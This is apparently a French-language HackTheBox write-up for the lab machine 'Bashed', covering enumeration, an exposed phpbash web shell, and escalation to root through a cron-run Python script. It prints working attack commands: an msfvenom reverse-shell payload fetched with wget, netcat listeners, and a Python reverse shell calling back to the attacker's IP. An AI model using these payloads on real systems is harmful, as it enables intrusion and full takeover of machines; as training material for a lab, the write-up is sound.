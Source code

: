 ```yaml
---
title: HTB | Bashed
description: Bashed is a fairly easy machine which focuses mainly on fuzzing and locating important files. As basic access to the crontab is restricted, ...
slug: bashed-htb
date: 2025-01-13 00:00:00+0000
#image: cover.png
categories:
 - HackTheBox
tags:
 - Linux
 - Easy
#weight: 1
---
```


<table style="border:none; width:100%;">
  <tr>
    <!-- Colonne gauche : logo -->
    <td style="border:none; text-align:center; vertical-align:middle; width:150px;">
      <img src="cover.png" alt="Bashed cover" width="120">
    </td>
    <td style="border:none; text-align:center; vertical-align:middle;">
      <table style="margin:auto; border-collapse:collapse; border:1px solid #ddd;">
        <thead>
          <tr>
            <th style="padding:8px; border:1px solid #ddd; text-align:center;">Machine name</th>
            <th style="padding:8px; border:1px solid #ddd; text-align:center;">OS</th>
            <th style="padding:8px; border:1px solid #ddd; text-align:center;">IP</th>
            <th style="padding:8px; border:1px solid #ddd; text-align:center;">Difficulty</th>
          </tr>
        </thead>
        <tbody>
          <tr>
            <td style="padding:8px; border:1px solid #ddd; text-align:center;">Bashed</td>
            <td style="padding:8px; border:1px solid #ddd; text-align:center;">Linux</td>
            <td style="padding:8px; border:1px solid #ddd; text-align:center;">10.10.10.68</td>
            <td style="padding:8px; border:1px solid #ddd; text-align:center;">Easy</td>
          </tr>
        </tbody>
      </table>
    </td>
  </tr>
</table>

## Enumeration

### nmap
```bash
┌──(kali㉿kali)-[~]
└─$ nmap -sS -sC -sV -An -p- 10.10.10.68
...
80 -> HTTP : http://bashed.htb
```

## Foothold

### gobuster: found dev/ folder
```bash
$ gobuster dir -u http://bashed.htb -t 50 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://bashed.htb
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/uploads              (Status: 301) [Size: 310] [--> http://bashed.htb/uploads/]
/php                  (Status: 301) [Size: 306] [--> http://bashed.htb/php/]
/css                  (Status: 301) [Size: 306] [--> http://bashed.htb/css/]
/dev                  (Status: 301) [Size: 306] [--> http://bashed.htb/dev/]
/js                   (Status: 301) [Size: 305] [--> http://bashed.htb/js/]
/fonts                (Status: 301) [Size: 308] [--> http://bashed.htb/fonts/]
/images               (Status: 301) [Size: 309] [--> http://bashed.htb/images/]
/server-status        (Status: 403) [Size: 298]
Progress: 220560 / 220561 (100.00%)
===============================================================
Finished
===============================================================
```

### phpbash.php: www-data and arrexel user
Dans le dossier dev/, on peut executer un script phpbash.php qui donne litteralement une session bash interactive en tant que www-data sur la machine :
```bash
http://bashed.htb/dev/phpbash.php

www-data@bashed:/# cd home/

www-data@bashed:/home# ls

arrexel
scriptmanager
www-data@bashed:/home# cd arrexel

www-data@bashed:/home/arrexel# ls

user.txt
www-data@bashed:/home/arrexel# cat user.txt

aef2.....8071
```

### Users
```bash
cat /etc/passwd | grep bash

root:x:0:0:root:/root:/bin/bash
arrexel:x:1000:1000:arrexel,,,:/home/arrexel:/bin/bash
scriptmanager:x:1001:1001:,,,:/home/scriptmanager:/bin/bash
```

### Reverse shell : msfvenom
Avec msfvenom, pour s'entrainer :
```bash
$ msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.14.42 LPORT=1337 -f elf -o test.elf
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 74 bytes
Final size of elf file: 194 bytes
Saved as: test.elf
$ python3 -m http.server 8888
Serving HTTP on 0.0.0.0 port 8888 (http://0.0.0.0:8888/) ...
10.10.10.68 - - [11/Jan/2025 19:11:27] "GET /test.elf HTTP/1.1" 200 -

------------------------------------------

$ nc -lnvp 1337
listening on [any] 1337 ...
connect to [10.10.14.42] from (UNKNOWN) [10.10.10.68] 54598

python3 -c "import pty;pty.spawn('/bin/bash')"
www-data@bashed:/tmp$ export TERM=xterm
export TERM=xterm
www-data@bashed:/tmp$ ^Z
zsh: suspended  nc -lnvp 1337
                                                                                                                                                                                                                                   
┌──(kali㉿kali)-[~/htb/Bashed]
└─$ stty raw -echo; fg
[3]    continued  nc -lnvp 1337

www-data@bashed:/tmp$ whoami
www-data

---------------------------------------------

wget 10.10.14.42:8888/test.elf

--2025-01-11 16:18:10-- http://10.10.14.42:8888/test.elf
Connecting to 10.10.14.42:8888... connected.
HTTP request sent, awaiting response... 200 OK
Length: 194 [application/octet-stream]
Saving to: 'test.elf'

0K 100% 40.5M=0s

2025-01-11 16:18:10 (40.5 MB/s) - 'test.elf' saved [194/194]

www-data@bashed:/tmp# chmod 777 ./test.elf

www-data@bashed:/tmp# ls -la test.elf

-rwxrwxrwx 1 www-data www-data 194 Jan 11 16:10 test.elf
www-data@bashed:/tmp# ./test.elf &
```

## www-data -> scriptmanager

### Enumeration : sudo -l
On découvre qu'on peut executer n'importe quelle commande, en tant que l'utilisateur scriptmanager sans mot de passe !
```bash
www-data@bashed:/home/arrexel$ sudo -l
Matching Defaults entries for www-data on bashed:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on bashed:
    (scriptmanager : scriptmanager) NOPASSWD: ALL
```

### shell as scriptmanager
On ouvre donc un bash en tant que scriptmanager :
```bash
www-data@bashed:/home/arrexel$ sudo -u scriptmanager /bin/bash
scriptmanager@bashed:/home/arrexel$ whoami
scriptmanager
```

## scriptmanager -> root

### LinPEAS : /scripts folder
Avec linpeas, on découvre un dossier suspect "/scripts" à la racine, créer par le user `scriptmanager`.

On découvre qu'il contient deux fichiers :
```bash
scriptmanager@bashed:/scripts$ ls -l
total XX
-rw-r--r-- 1 scriptmanager scriptmanager 206 Jan 12 14:37 test.py
-rw-r--r-- 1 root          root           12 Jan 12 13:25 test.txt
```
Dans test.py, on peut voir une commande qui ecrit dans un fichier test.txt une string "hello". Ce fichier existe deja, donc le script a été executé auparavant. Comme le fichier semble avoir été crée par root, on déduit que root a executé ce script python. On suppose donc que ce fichier est potentiellement un script de test executé régulièrement par root, dans une crontab. On modifie donc le fichier test.py avec un reverse shell trouvé sur le site reverse shell generator :
https://www.revshells.com/
```bash
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.42",6666));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")

-----------------------------

nc -lnvp 6666
listening on [any] 6666 ...
connect to [10.10.14.42] from (UNKNOWN) [10.10.10.68] 42276
## whoami
whoami
root
## cat /root/root.txt
cat /root/root.txt
4600.....78e4
```

